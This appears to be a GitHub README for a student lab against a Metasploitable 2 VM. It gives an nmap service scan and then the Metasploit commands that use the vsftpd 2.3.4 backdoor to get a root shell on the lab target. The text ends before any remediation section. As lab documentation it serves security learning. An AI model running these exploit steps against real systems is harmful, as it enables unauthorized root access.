


# Network Reconnaissance & Vulnerability Assessment Lab

## Overview
This project demonstrates a controlled network reconnaissance and vulnerability assessment performed against an authorized laboratory environment.

The objective is to identify exposed network services, understand the technologies running on those services, investigate potential security weaknesses, and document appropriate remediation.

## Objectives
- Perform host discovery
- Identify open ports
- Enumerate network services
- Identify potential vulnerabilities
- Assess security impact
- Recommend remediation
- Document the assessment professionally

## Environment
- **Attacker:** Kali Linux (Dual Adapter: NAT for internet, Host-Only for lab)
- **Target:** Metasploitable 2 (Vulnerable Ubuntu 8.04 server)
- **Tools:** VirtualBox, Nmap, Metasploit Framework

## Phase 1: Network Reconnaissance
I performed a service version scan against the target IP (192.168.56.101).

**Command used:** `nmap -sV 192.168.56.101`

**Results:** Identified 23 open ports, including the notoriously vulnerable **vsftpd 2.3.4** service.



## Phase 2: Exploitation (Metasploit)
I exploited the vsftpd 2.3.4 backdoor using the Metasploit Framework.

**Command used:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
Result: Successfully obtained a root shell on the target machine.


